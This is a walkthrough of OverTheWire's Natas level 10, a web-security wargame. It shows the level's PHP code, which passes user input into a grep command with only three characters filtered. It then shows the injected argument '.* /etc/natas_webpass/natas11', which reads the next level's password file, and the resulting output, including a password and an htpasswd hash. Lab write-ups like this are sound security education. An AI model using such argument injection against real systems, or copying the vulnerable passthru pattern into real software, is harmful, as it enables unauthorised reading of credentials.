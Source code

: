 This is the same as natas9 except the characters `;`, `|` and `&` are filtered:
```php
<?   

$key = "";   

if(array_key_exists("needle", $_REQUEST)) {    
	$key = $_REQUEST["needle"];   
}      

if($key != "") {       
	if(preg_match('/[;|&]/',$key)) {           
		print "Input contains an illegal character!";       
	} else {        
		passthru("grep -i $key dictionary.txt");       
	}   
}

?>
```

So the concept is going to be the same as the last level, but we need to come up with a more creative way of injecting our commands

`grep` can allow us to read from multiple files at the same time. So if I try to grep the letter `a` and input a file path like `/etc/natas_webpass/natas11`, I'll be able to grep that letter from both `dictionary.txt` and `/etc/natas_webpass/natas11`.

Of course, this won't always work. What if the password doesn't have an `a` in it. So we could use the wildcard character `.*`. The `*` is just a repetition operator, but we need to tell it what to repeat. The `.` means any character. So the full injection is:

```
.* /etc/natas_webpass/natas11
```

Giving us this output:

```
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$apr1$BJulC6vU$XnGaMp0g7Mt56BsyHiQ8l0
/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
dictionary.txt:Americans
dictionary.txt:April
dictionary.txt:April's
dictionary.txt:Aprils
```